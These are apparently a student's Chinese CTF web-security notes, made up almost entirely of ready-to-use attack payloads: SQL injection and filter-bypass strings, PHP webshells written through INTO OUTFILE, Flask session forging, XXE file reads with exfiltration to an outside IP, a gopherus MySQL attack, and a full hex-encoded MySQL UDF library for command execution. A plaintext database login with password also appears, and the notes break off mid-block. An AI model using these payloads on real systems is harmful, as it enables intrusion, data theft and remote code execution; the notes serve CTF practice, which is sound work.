



# Web CTF Notes — SQLi、SSRF、XXE、JWT、Git 与 Java

> 来源：source/本科web笔记.md
> 内容按原笔记保留，仅添加本分组标题。

## 十一、SQL 注入

## 🗄️ 十一、SQL 注入

> [!summary] 速览
> - 备份与恢复：`mysqldump -uroot -p blog>nyg.sql`、`mysql -u root -p123456 blog< x.sql`
> - 闭合不一定是单引号，也可能是双引号；万能密码 `"or 1=1--+`
> - 联合查询取库表列：`union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='web2'),3#`
> - 盲注与列数：`order by` / `group by` 测列数，`/**/` 代替空格
> - 堆叠注入：`';handler FlagHere open;handler FlagHere read first#`、`PREPARE ... EXECUTE`
> - 无列名注入：`select 1,2 as a union select * from flag` 先起别名再继续注入
> - 常见绕过：结果里不能出现 `flag` 用 `to_base64` / `hex`；不能出现数字用 `replace()` 逐个替换



导出备份

```bash
mysqldump -uroot -p  blog>C:/Users/admin/Desktop/nyg.sql
#输入
mysql -u root -p123456 blog< c:\20090219.sql

```

(select 'admin' username,'123' password)a

创建新表

### 更新段表

1';upDate%09items%09set%09price=1%09Where%09id=8;#

有时候不一定是’闭合，可能是”

万能密码："or 1=1--+

admin"\**\order\**\by\**\3#

### 注入 1

' or 1=1 order by 3#

a' union select 1,database(),3 #

a'  union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='web2'),3#

a'  union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='web2' and table_name='flag' ),3#

查询的信息可以回显，说明是union注入，然后要判断字段数。

?id=TMP0919' Order by 1#

看回显

?id=1' uNion Select 1,2,3,4,5#

查询表名

?id=1' uNion Select ((sElect grOup_cOncat(tAble_name) From infOrmation_schema.tables Where Table_schema=Database())),2,3,4,5%23

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps4.png`

查询字段名

id=1' uNion Select ((sElect grOup_cOncat(column_name) From infOrmation_schema.columns WhereTable_name='here_is_flag')),2,3,4,5%23

查询Flag值:

?id=1' uNion Select ((sElect grOup_cOncat(flag) From here_is_flag)),2,3,4,5%23

0' union select 1#

密码是1

ᴬᴰᴹᴵᴺ

```text
'^0#   '^''#   '<>1#   '<1#   '&0#   '<<0#   '>>0#   '&''#   '/9#

```

'^0# 分号可以用于闭合，井号可以用于注释，^进行异或运算，等号就是判等，这里需要利用sql的一个点“mysql弱类型转换”，空异或0会查到所有非数字开头的记录

admin加空格来绕过（sql约束攻击）

userid=1' union select "<?php eval($_POST[1]);?>" into outfile "/var/www/html/shell.php"#&userpwd=1

爆破session密码

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps5.jpg`

session可能在的地方 ..././..././..././etc/config.py

python3 .\flask_session_cookie_manager3.py decode -c 'eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.XyEaww.Iwc6W-s4ACfLuJX9SNYhvTPbb1k' -s '82.5659952704'

python3 .\flask_session_cookie_manager3.py encode -s '82.5659952704' -t "{'username': b'fuck'}"

测试数据：

`1;show databases;#`

### Handler 注入

';handler `1919810931114514` open;handler `1919810931114514` read first#

拼接注入

```sql
1';PREPARE st from concat('s','elect', ' * from `1919810931114514` ');EXECUTE st;#

```

### 布尔盲注

if(1=1,1,sleep(3)) // 1=1恒成立，因此会输出1

if(1=2,1,sleep(3)) //1=2不成立，则会执行最后的sleep函数，延迟3秒后回显

1'&&sleep(5)#

if(length((select(flag)from(flag)))=42,1,0)

id=if((ascii(substr((select(flag)from(flag)),$1$,1)))=$ace,1,0)

空格可以%a0 %0b %20 %09 代替%0d

#### 特殊方法

`information_schema.tables用mysql.innodb_table_stats代替
table_schema用database_name代替`

```sql
查表名使用
select group_concat(table_name) from mysql.innodb_table_stats where database_name=database()
跳过爆字段名直接爆值

```

```sql
查表名
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

```

无列名注入（知道表名)

```sql
?username=joe'union/**/select/**/a/**/from/**/(select/**/1,2/**/as/**/a/**/union/**/select/**/*/**/from/**/flag)/**/as/**/q%23

```

因为没有mysql.innodb_column_stats这个方法，查不了列名
大概原理就是没有列名，那就给它取名，然后按别名正常继续注入

```sql
//-1'/**/union/**/select/**/1,(select/**/group_concat(b)/**/from/**/(select/**/1,2,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

```


#### 测试列数


`1'/**/group/**/by/**/22,'3`

#### 堆叠注入

';handler `FlagHere` open;handler `FlagHere` read first#读取

1';PREPARE st from concat('s','elect', ' * from `FlagHere` ');EXECUTE st;#

#### 常见绕过

1.结果不允许有flag字符

  if($row->username!==’flag’)

A. -1' union select to_base64(username),hex(password) from ctfshow_user2 --+

3. 不允许有flag

 if(!preg_match('/flag/i', json_encode($ret))){

A. -1' union select 1,2,password from ctfshow_user3 where username='flag' --+

3.不允许有数字

 if(!preg_match('/flag|[0-9]/i', json_encode($ret))){

A. -1'union select replace(username,'g','j'),replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','F'),'7','G'),'8','H'),'9','I'),'0','J'),'g','j') from ctfshow_user4 where username='flag'--+

---


## 十三、Git 题目

## 🌿 十三、Git 题目

> [!summary] 速览
> - 本章目前只有一张截图（见下），考点为 `.git` 泄漏与源码恢复


---


## 十四、Java 题目

## 🍵 十四、Java 题目

> [!summary] 速览
> - `WEB-INF` 结构：`web.xml`、`classes/`、`lib/`、`src/`、`database.properties`
> - 例题：读 `/WEB-INF/classes/com/wm/ctf/FlagController.class` 反编译看逻辑
> - Struts 工具；XXE 无 DNS 外带（走 fontconfig DTD 报错回显）
> - 信息可能藏在环境变量：`file:///proc/1/environ`

存有web信息的XML文件

WEB-INF主要包含一下文件或目录：

/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。

/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中

/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件

/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。

/WEB-INF/database.properties：数据库配置文件

例题

<servlet>

    <servlet-name>FlagController</servlet-name>

    <servlet-class>com.wm.ctf.FlagController</servlet-class>

  </servlet>

filename=/WEB-INF/classes/com/wm/ctf/FlagController.class

Struts工具

 xxe无dns外带

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'b)>
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>1111111111111</message>

```

可能在env里。

file:///proc/1/environ

/readFile?filename=../../../../../../../../../../../../proc/1/environ

---


## 十五、JWT 题目

## 🎫 十五、JWT 题目

> [!summary] 速览
> - `local_file:///sys/class/net/eth0/address`（**后面一定要加点**）

（后面一定要加点）

local_file:///sys/class/net/eth0/address

---


## 十六、XXE 题目

## 📜 十六、XXE 题目

> [!summary] 速览
> - **有回显**：`<!ENTITY admin SYSTEM "file:///etc/passwd">` 后 `&admin;` 直接读文件
> - **无回显**：参数实体 + 外部 DTD 外带，`php://filter/read=convert.base64-encode/resource=/flag` 再 `%remote; %send;`
> - 只有一个普通实体时：`<!ENTITY xxe SYSTEM "file:///flag">` 塞进 `<name>&xxe;</name>`



例题1：有回显的文件读取


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [
 <!ENTITY admin SYSTEM "file:///etc/passwd">
 ]>
<user><username>&admin;</username><password>admin</password></user>

```

例题二:无回显

<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
<!ENTITY % remote SYSTEM "http://47.99.125.16/xxe.xml">
%remote;
%send;
]>

```xml
<?xml version="1.0" encoding="utf-8"?> 

<!DOCTYPE xxe[ 
	<!ELEMENT test ANY >	
	<!ENTITY xxe SYSTEM "file:///flag" >]>	
<test>
	<name>&xxe;</name>					
</test>		

```

---


## 十七、SSRF 题目

## 🛰️ 十七、SSRF 题目

> [!summary] 速览
> - **file**：有回显直接读任意文件；**dict**：探端口、看软件版本、操作内网 Redis
> - **gopher**：万能协议，可发 GET/POST，用于反弹 shell、打 Redis / MySQL
> - 打 MySQL：`python2 gopherus.py --exploit mysql` → `select "<?php @eval($_POST['cmd']);?>" into outfile '/var/www/html/aa.php';`
> - 写马两种：UNION 联合查询 `into outfile/dumpfile`；无联合时 `into outfile ... FIELDS TERMINATED BY '<?php phpinfo();?>'`
> - MySQL 提权：看 `secure_file_priv`（空 = 不限目录，NULL = 禁导入导出）、`plugin_dir`，用 UDF 写 so 执行系统命令
> - 打 Redis：主从复制（dict 协议分步解决）；`http/s` 协议可探内网主机存活



### file 协议

 在有回显的情况下，利用 file 协议可以读取任意文件的内容

### dict 协议

泄露安装软件版本信息，查看端口，操作内网redis服务等

### gopher 协议

gopher支持发出GET、POST请求。可以先截获get请求包和post请求包，再构造成符合gopher协议的请求。gopher协议是ssrf利用中一个最强大的协议(俗称万能协议)。可用于反弹shell

[例题](https://blog.csdn.net/weixin_50464560/article/details/122473887?ops_request_misc=&request_id=&biz_id=102&utm_term=ctshowssrf&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-0-122473887.142^v99^pc_search_result_base7&spm=1018.2226.3001.4187)

#### 打 MySQL（无密码）

```bash
python2 gopherus.py --exploit mysql
root
select "<?php @eval($_POST['cmd']);?>" into outfile '/var/www/html/aa.php';

```

### MySQL 读取任意文件漏洞

```text
1.在腾讯服务器上开rough服务监听，受害机连接，输入指令获得。

远程连接

 mysql -h 1.14.108.193 -P 3306 -u root -pygyjl694NYG. blog

```

#### 写马

[通杀大全](https://www.sqlsec.com/2020/11/mysql.html#%E5%86%99%E5%85%A5%E5%8A%A8%E6%80%81%E9%93%BE%E6%8E%A5%E5%BA%93)

##### 基于 UNION 联合查询

```sql
?id=1 UNION ALL SELECT 1,'<?php phpinfo();?>',3 into outfile 'C:\info.php'%23
?id=1 UNION ALL SELECT 1,'<?php phpinfo();?>',3 into dumpfile 'C:\info.php'%23

```

##### 非联合查询

当我们无法使用联合查询时，我们可以使用`fields terminated by`与`lines terminated by`来写shell

```php
?id=1 into outfile 'C:\info.php' FIELDS TERMINATED BY '<?php phpinfo();?>'%23

```

#### MySQL 提权到 root

[总结](https://blog.csdn.net/qq_45927266/article/details/119297840)

`show global variables like '%secure%';`

选项 secure_file_priv 用于限制导入和导出的数据目录

如果为空，不做目录限制，即任何目录均可以

如果设置为 NULL ，MySQL 服务器禁止导入与导出功能

直接写webshell会发现没有web根路径的权限


换一个思路可以通过udf提权执行系统命令

`plugin_dir` 选项用于指定插件目录

`show global variables like '%plugin%';`


so文件写法：

```sql
SET @file_content = LOAD_FILE('C:/Users/admin/Desktop/lib_mysqludf_sys_64.so');
INSERT INTO people (cmd) VALUES (HEX(@file_content));

```

```sql
SELECT hex(load_file('/lib_mysqludf_sys_64.so'));

```

写入so文件

`SELECT 0x7f454c4602010100000000000000000003003e0001000000d00c0000000000004000000000000000e8180000000000000000000040003800050040001a00190001000000050000000000000000000000000000000000000000000000000000001415000000000000141500000000000000002000000000000100000006000000181500000000000018152000000000001815200000000000700200000000000080020000000000000000200000000000020000000600000040150000000000004015200000000000401520000000000090010000000000009001000000000000080000000000000050e57464040000006412000000000000641200000000000064120000000000009c000000000000009c00000000000000040000000000000051e5746406000000000000000000000000000000000000000000000000000000000000000000000000000000000000000800000000000000250000002b0000001500000005000000280000001e000000000000000000000006000000000000000c00000000000000070000002a00000009000000210000000000000000000000270000000b0000002200000018000000240000000e00000000000000040000001d0000001600000000000000130000000000000000000000120000002300000010000000250000001a0000000f000000000000000000000000000000000000001b00000000000000030000000000000000000000000000000000000000000000000000002900000014000000000000001900000020000000000000000a00000011000000000000000000000000000000000000000d0000002600000017000000000000000800000000000000000000000000000000000000000000001f0000001c0000000000000000000000000000000000000000000000020000000000000011000000140000000200000007000000800803499119c4c93da4400398046883140000001600000017000000190000001b0000001d0000002000000022000000000000002300000000000000240000002500000027000000290000002a00000000000000ce2cc0ba673c7690ebd3ef0e78722788b98df10ed871581cc1e2f7dea868be12bbe3927c7e8b92cd1e7066a9c3f9bfba745bb073371974ec4345d5ecc5a62c1cc3138aff36ac68ae3b9fd4a0ac73d1c525681b320b5911feab5fbe120000000000000000000000000000000000000000000000000000000003000900a00b0000000000000000000000000000010000002000000000000000000000000000000000000000250000002000000000000000000000000000000000000000e0000000120000000000000000000000de01000000000000790100001200000000000000000000007700000000000000ba0000001200000000000000000000003504000000000000f5000000120000000000000000000000c2010000000000009e010000120000000000000000000000d900000000000000fb000000120000000000000000000000050000000000000016000000220000000000000000000000fe00000000000000cf000000120000000000000000000000ad00000000000000880100001200000000000000000000008000000000000000ab010000120000000000000000000000250100000000000010010000120000000000000000000000dc00000000000000c7000000120000000000000000000000c200000000000000b5000000120000000000000000000000cc02000000000000ed000000120000000000000000000000e802000000000000e70000001200000000000000000000009b00000000000000c200000012000000000000000000000028000000000000008001000012000b007a100000000000006e000000000000007500000012000b00a70d00000000000001000000000000001000000012000c00781100000000000000000000000000003f01000012000b001a100000000000002d000000000000001f01000012000900a00b0000000000000000000000000000c30100001000f1ff881720000000000000000000000000009600000012000b00ab0d00000000000001000000000000007001000012000b0066100000000000001400000000000000cf0100001000f1ff981720000000000000000000000000005600000012000b00a50d00000000000001000000000000000201000012000b002e0f0000000000002900000000000000a301000012000b00f71000000000000041000000000000003900000012000b00a40d00000000000001000000000000003201000012000b00ea0f0000000000003000000000000000bc0100001000f1ff881720000000000000000000000000006500000012000b00a60d00000000000001000000000000002501000012000b00800f0000000000006a000000000000008500000012000b00a80d00000000000003000000000000001701000012000b00570f00000000000029000000000000005501000012000b0047100000000000001f00000000000000a900000012000b00ac0d0000000000009a000000000000008f01000012000b00e8100000000000000f00000000000000d700000012000b00460e000000000000e800000000000000005f5f676d6f6e5f73746172745f5f005f66696e69005f5f6378615f66696e616c697a65005f4a765f5265676973746572436c6173736573006c69625f6d7973716c7564665f7379735f696e666f5f6465696e6974007379735f6765745f6465696e6974007379735f657865635f6465696e6974007379735f6576616c5f6465696e6974007379735f62696e6576616c5f696e6974007379735f62696e6576616c5f6465696e6974007379735f62696e6576616c00666f726b00737973636f6e66006d6d6170007374726e6370790077616974706964007379735f6576616c006d616c6c6f6300706f70656e007265616c6c6f630066676574730070636c6f7365007379735f6576616c5f696e697400737472637079007379735f657865635f696e6974007379735f7365745f696e6974007379735f6765745f696e6974006c69625f6d7973716c7564665f7379735f696e666f006c69625f6d7973716c7564665f7379735f696e666f5f696e6974007379735f657865630073797374656d007379735f73657400736574656e76007379735f7365745f6465696e69740066726565007379735f67657400676574656e76006c6962632e736f2e36005f6564617461005f5f6273735f7374617274005f656e6400474c4942435f322e322e35000000000000000000020002000200020002000200020002000200020002000200020002000200020001000100010001000100010001000100010001000100010001000100010001000100010001000100010001000100000001000100b20100001000000000000000751a690900000200d401000000000000801720000000000008000000000000008017200000000000d01620000000000006000000020000000000000000000000d81620000000000006000000030000000000000000000000e016200000000000060000000a00000000000000000000000017200000000000070000000400000000000000000000000817200000000000070000000500000000000000000000001017200000000000070000000600000000000000000000001817200000000000070000000700000000000000000000002017200000000000070000000800000000000000000000002817200000000000070000000900000000000000000000003017200000000000070000000a00000000000000000000003817200000000000070000000b00000000000000000000004017200000000000070000000c00000000000000000000004817200000000000070000000d00000000000000000000005017200000000000070000000e00000000000000000000005817200000000000070000000f00000000000000000000006017200000000000070000001000000000000000000000006817200000000000070000001100000000000000000000007017200000000000070000001200000000000000000000007817200000000000070000001300000000000000000000004883ec08e827010000e8c2010000e88d0500004883c408c3ff35320b2000ff25340b20000f1f4000ff25320b20006800000000e9e0ffffffff252a0b20006801000000e9d0ffffffff25220b20006802000000e9c0ffffffff251a0b20006803000000e9b0ffffffff25120b20006804000000e9a0ffffffff250a0b20006805000000e990ffffffff25020b20006806000000e980ffffffff25fa0a20006807000000e970ffffffff25f20a20006808000000e960ffffffff25ea0a20006809000000e950ffffffff25e20a2000680a000000e940ffffffff25da0a2000680b000000e930ffffffff25d20a2000680c000000e920ffffffff25ca0a2000680d000000e910ffffffff25c20a2000680e000000e900ffffffff25ba0a2000680f000000e9f0feffff00000000000000004883ec08488b05f50920004885c07402ffd04883c408c390909090909090909055803d900a2000004889e5415453756248833dd809200000740c488b3d6f0a2000e812ffffff488d05130820004c8d2504082000488b15650a20004c29e048c1f803488d58ff4839da73200f1f440000488d4201488905450a200041ff14c4488b153a0a20004839da72e5c605260a2000015b415cc9c3660f1f8400000000005548833dbf072000004889e57422488b05530920004885c07416488d3da70720004989c3c941ffe30f1f840000000000c9c39090c3c3c3c331c0c3c341544883c9ff4989f455534883ec10488b4610488b3831c0f2ae48f7d1488d69ffe8b6feffff83f80089c77c61754fbf1e000000e803feffff488d70ff4531c94531c031ffb921000000ba07000000488d042e48f7d64821c6e8aefeffff4883f8ff4889c37427498b4424104889ea4889df488b30e852feffffffd3eb0cba0100000031f6e802feffff31c0eb05b8010000005a595b5d415cc34157bf00040000415641554531ed415455534889f34883ec1848894c24104c89442408e85afdffffbf010000004989c6e84dfdffffc600004889c5488b4310488d356a030000488b38e814feffff4989c7eb374c89f731c04883c9fff2ae4889ef48f7d1488d59ff4d8d641d004c89e6e8ddfdffff4a8d3c284889da4c89f64d89e54889c5e8a8fdffff4c89fabe080000004c89f7e818fdffff4885c075b44c89ffe82bfdffff807d0000750a488b442408c60001eb1f42c6442dff0031c04883c9ff4889eff2ae488b44241048f7d148ffc94889084883c4184889e85b5d415c415d415e415fc34883ec08833e014889d7750b488b460831d2833800740e488d353a020000e817fdffffb20188d05ec34883ec08833e014889d7750b488b460831d2833800740e488d3511020000e8eefcffffb20188d05fc3554889fd534889d34883ec08833e027409488d3519020000eb3f488b46088338007409488d3526020000eb2dc7400400000000488b4618488b384883c70248037808e801fcffff31d24885c0488945107511488d351f0200004889dfe887fcffffb20141585b88d05dc34883ec08833e014889f94889d77510488b46088338007507c6010131c0eb0e488d3576010000e853fcffffb0014159c34154488d35ef0100004989cc4889d7534889d34883ec08e832fcffff49c704241e0000004889d8415a5b415cc34883ec0831c0833e004889d7740e488d35d5010000e807fcffffb001415bc34883ec08488b4610488b38e862fbffff5a4898c34883ec28488b46184c8b4f104989f2488b08488b46104c89cf488b004d8d4409014889c6f3a44c89c7498b4218488b0041c6040100498b4210498b5218488b4008488b4a08ba010000004889c6f3a44c89c64c89cf498b4218488b400841c6040000e867fbffff4883c4284898c3488b7f104885ff7405e912fbffffc3554889cd534c89c34883ec08488b4610488b38e849fbffff4885c04889c27505c60301eb1531c04883c9ff4889d7f2ae48f7d148ffc948894d00595b4889d05dc39090909090909090554889e5534883ec08488b05c80320004883f8ff7419488d1dbb0320000f1f004883eb08ffd0488b034883f8ff75f14883c4085bc9c390904883ec08e86ffbffff4883c408c345787065637465642065786163746c79206f6e6520737472696e67207479706520706172616d657465720045787065637465642065786163746c792074776f20617267756d656e747300457870656374656420737472696e67207479706520666f72206e616d6520706172616d6574657200436f756c64206e6f7420616c6c6f63617465206d656d6f7279006c69625f6d7973716c7564665f7379732076657273696f6e20302e302e34004e6f20617267756d656e747320616c6c6f77656420287564663a206c69625f6d7973716c7564665f7379735f696e666f290000011b033b980000001200000040fbffffb400000041fbffffcc00000042fbffffe400000043fbfffffc00000044fbffff1401000047fbffff2c01000048fbffff44010000e2fbffff6c010000cafcffffa4010000f3fcffffbc0100001cfdffffd401000086fdfffff4010000b6fdffff0c020000e3fdffff2c02000002feffff4402000016feffff5c02000084feffff7402000093feffff8c0200001400000000000000017a5200017810011b0c070890010000140000001c00000084faffff01000000000000000000000014000000340000006dfaffff010000000000000000000000140000004c00000056faffff01000000000000000000000014000000640000003ffaffff010000000000000000000000140000007c00000028faffff030000000000000000000000140000009400000013faffff01000000000000000000000024000000ac000000fcf9ffff9a00000000420e108c02480e18410e20440e3083048603000000000034000000d40000006efaffffe800000000420e10470e18420e208d048e038f02450e28410e30410e38830786068c05470e50000000000000140000000c0100001efbffff2900000000440e100000000014000000240100002ffbffff2900000000440e10000000001c0000003c01000040fbffff6a00000000410e108602440e188303470e200000140000005c0100008afbffff3000000000440e10000000001c00000074010000a2fbffff2d00000000420e108c024e0e188303470e2000001400000094010000affbffff1f00000000440e100000000014000000ac010000b6fbffff1400000000440e100000000014000000c4010000b2fbffff6e00000000440e300000000014000000dc01000008fcffff0f00000000000000000000001c000000f4010000fffbffff4100000000410e108602440e188303470e2000000000000000000000ffffffffffffffff0000000000000000ffffffffffffffff000000000000000000000000000000000100000000000000b2010000000000000c00000000000000a00b0000000000000d00000000000000781100000000000004000000000000005801000000000000f5feff6f00000000a00200000000000005000000000000006807000000000000060000000000000060030000000000000a00000000000000e0010000000000000b0000000000000018000000000000000300000000000000e81620000000000002000000000000008001000000000000140000000000000007000000000000001700000000000000200a0000000000000700000000000000c0090000000000000800000000000000600000000000000009000000000000001800000000000000feffff6f00000000a009000000000000ffffff6f000000000100000000000000f0ffff6f000000004809000000000000f9ffff6f0000000001000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000401520000000000000000000000000000000000000000000ce0b000000000000de0b000000000000ee0b000000000000fe0b0000000000000e0c0000000000001e0c0000000000002e0c0000000000003e0c0000000000004e0c0000000000005e0c0000000000006e0c0000000000007e0c0000000000008e0c0000000000009e0c000000000000ae0c000000000000be0c0000000000008017200000000000004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200004743433a202844656269616e20342e332e322d312e312920342e332e3200002e7368737472746162002e676e752e68617368002e64796e73796d002e64796e737472002e676e752e76657273696f6e002e676e752e76657273696f6e5f72002e72656c612e64796e002e72656c612e706c74002e696e6974002e74657874002e66696e69002e726f64617461002e65685f6672616d655f686472002e65685f6672616d65002e63746f7273002e64746f7273002e6a6372002e64796e616d6963002e676f74002e676f742e706c74002e64617461002e627373002e636f6d6d656e7400000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000f0000000500000002000000000000005801000000000000580100000000000048010000000000000300000000000000080000000000000004000000000000000b000000f6ffff6f0200000000000000a002000000000000a002000000000000c000000000000000030000000000000008000000000000000000000000000000150000000b00000002000000000000006003000000000000600300000000000008040000000000000400000002000000080000000000000018000000000000001d00000003000000020000000000000068070000000000006807000000000000e00100000000000000000000000000000100000000000000000000000000000025000000ffffff6f020000000000000048090000000000004809000000000000560000000000000003000000000000000200000000000000020000000000000032000000feffff6f0200000000000000a009000000000000a009000000000000200000000000000004000000010000000800000000000000000000000000000041000000040000000200000000000000c009000000000000c00900000000000060000000000000000300000000000000080000000000000018000000000000004b000000040000000200000000000000200a000000000000200a0000000000008001000000000000030000000a0000000800000000000000180000000000000055000000010000000600000000000000a00b000000000000a00b000000000000180000000000000000000000000000000400000000000000000000000000000050000000010000000600000000000000b80b000000000000b80b00000000000010010000000000000000000000000000040000000000000010000000000000005b000000010000000600000000000000d00c000000000000d00c000000000000a80400000000000000000000000000001000000000000000000000000000000061000000010000000600000000000000781100000000000078110000000000000e000000000000000000000000000000040000000000000000000000000000006700000001000000320000000000000086110000000000008611000000000000dd000000000000000000000000000000010000000000000001000000000000006f000000010000000200000000000000641200000000000064120000000000009c000000000000000000000000000000040000000000000000000000000000007d000000010000000200000000000000001300000000000000130000000000001402000000000000000000000000000008000000000000000000000000000000870000000100000003000000000000001815200000000000181500000000000010000000000000000000000000000000080000000000000000000000000000008e000000010000000300000000000000281520000000000028150000000000001000000000000000000000000000000008000000000000000000000000000000950000000100000003000000000000003815200000000000381500000000000008000000000000000000000000000000080000000000000000000000000000009a000000060000000300000000000000401520000000000040150000000000009001000000000000040000000000000008000000000000001000000000000000a3000000010000000300000000000000d016200000000000d0160000000000001800000000000000000000000000000008000000000000000800000000000000a8000000010000000300000000000000e816200000000000e8160000000000009800000000000000000000000000000008000000000000000800000000000000b1000000010000000300000000000000801720000000000080170000000000000800000000000000000000000000000008000000000000000000000000000000b7000000080000000300000000000000881720000000000088170000000000001000000000000000000000000000000008000000000000000000000000000000bc000000010000000000000000000000000000000000000088170000000000009b000000000000000000000000000000010000000000000000000000000000000100000003000000000000000000000000000000000000002318000000000000c500000000000000000000000000000001000000000000000000000000000000 INTO DUMPFILE '/usr/local/mysql/lib/plugin/udf.so';`

`CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so';`

`select sys_eval('env');`

__url要进行二次编码__

#### 打 Redis

`curl_setopt($ch, CURLOPT_HEADER, 0); curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);`特征

```bash
